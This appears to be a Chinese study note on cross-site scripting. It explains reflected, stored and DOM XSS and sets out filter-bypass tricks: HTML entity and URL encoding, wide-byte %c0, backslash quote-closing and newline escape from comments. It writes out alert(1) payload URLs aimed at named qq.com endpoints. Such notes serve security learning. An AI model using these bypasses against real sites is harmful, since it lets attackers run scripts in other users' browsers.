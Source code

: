 ### 反射性xss
反射型xss又称为非持久型xss，这种攻击方式往往具有一次性

==攻击方式==：攻击者通过电子邮件等方式将包含XSS代码的恶意链接发送给目标用户，当用户访问该链接时，服务器接受该用户的请求并且处理，然后服务器把带有XSS代码的数据发送给用户的浏览器，浏览器解析这段有xss代码的恶意脚本后，就会触发该脚本(反射型xss更多的就是通过链接来的)


--- 
#### 转义方式

 < 不光可以写为 \u003c，还可以写为 \x3c， > 同样可以写为 \x3e。

js的话可以使用`unicode`转义,如`\u003c`

html转码是html编码，比如:`<img src=1"" onerror="alert(1)">`和`<img src="1" onerror="alert&#x28;1&#x29;">`是等效的

写在url，想转义的话可以用url编码，例如：`&-> %26,#->%23`

js中使用\来转义，把`"`转义，

js中可以使用\连接两条ja语句，例如：
```
var i="fdsafds\
ffdsafd"//这一般搭配换行符使用
```

js中如果编码是gb系列的话可以使用`%c0`来使被转义的字符不被转义比如`"`,转过来的话就是`�`


---
### 绕过方式

在 HTML 属性中，会自动对实体字符进行转义。一个简单的比方。

`<img src="1" onerror="alert(1)">`
和
`<img src="1" onerror="alert&#x28;1&#x29;">`
是等效的,换言之，只要上面的情况，没有过滤 &，# 等符号，我们就可以写入任意字符。

JS 部分我们可以做以下构造,由于'被过滤，我们可以将'写为 `&#x27`;

`location.href='........&searchvalue_yjbg=aaaaaa'`

`location.href='........&searchvalue_yjbg=aaaaaa'+alert(1)+''`

JS 部分我们可以做以下构造,由于'被过滤，我们可以将'写为 `&#x27`;//这个地方用的是html解码，也是unicode
接着我们把代码转换为 url 的编码。 `&-> %26`, `# -> %23`

最后的实现代码如下：
`http://stock.finance.qq.com/report/search.php?searchtype_yjbg=yjjg&searchvalue_yjbg=aaaaaaa%26%23x27;%2balert(1)%2b%2;`


---
#### 宽字节绕过
 例子如下：
`http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%22;alert(1);//aaaaaa`

我们尝试注入 " 来闭合前面的双引号，但是很悲剧的是，双引号被过滤了。。
如下图：

`var gstest = "&quot:;alert(1);//aaaa";`

然后我们可以看到编码是：
`<meta http-equiv="Content-Type" content="text/html; charset=gb18030" />`

gbxxxxxx系列的编码，那么我们尝试一下宽字节？
`http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%c0%22;alert(1);//aaaaaa`

看看效果：

这个通过了`var gstest = "�";alert(1);//aaaa";`

至于这个漏洞的成因，和传统的宽字节漏洞并不一样。目测应该是由于过滤双引号的正则表达式写的有问题造成的。并不是因为%22变成了`%5c%22`。

---

### 反斜线绕过

有缺陷的部分是：
`location.href="........."+"&ss=aaaa"+"&from=bbb"+"&param=";//后面省略。`

例如执行以下代码

`location.href="........."+"&ss=aaaa"+"&from=bbb"+"&param=";//后面省略。`
可以控制aaa但是又不能用"，这时使用\，杀掉后面的引号。
`location.href="………"+"&ss=aaa\"+"&from=bbb"+"&param=";`

为了保证 bbb 后面的语法正确性，我们把 bbb 改为一个数字，把 bbb 后面加上 // 来注释掉后面的部分。变成以下形式.
`location.href="……"+"&ss=aaa\"+"&from=1//"+"&param="`
运行的话就是("字符串"&from)=1
再改为
`location.href="……"+"&ss=aaa\"+"&from==1//"+"&param="`
这样运行的话就是("字符串")&(from=1)

最后代码为：
`location.href="........."+"&ss=aaaa\"+"&from==1;alert(1);function/**/from(){}//"+"&param=";`
这里的函数作用的作用为定义了`from`这个用户标识符，后面的注释是因为空格被转义,所以用注释占位

---
#### 换行符绕过

如果是在js的注释里面的话，可以试试换行符绕过，比如
嗯，这样一来，是否会想到这样一个用法呢？

//我是注释，我爱洗澡，哦～哦～哦～ [我是输出] alert(1)

如果可以使用换行符的话。

//我是注释，我爱洗澡，哦～哦～哦～ [我是输出 换行符

alert(1);//我是输出]

这样 alert(1); 就会被成功执行。


---
### 存储型XSS
储存型XSS又称为持久型XSS，攻击脚本会永久的刘春在目标服务器的数据库或文件中，具有很高的隐蔽性。
攻击方式：这种攻击方式多见于论坛，博客，和留言板中

### DOM型XSS
简单说就是通过<scrpt></script>这种前端的js代码从而达到修改前端内容的目的(这种解释不是绝对正确的)，DON型XSS也是分为反射型XSS和存储型XSS



XSS平台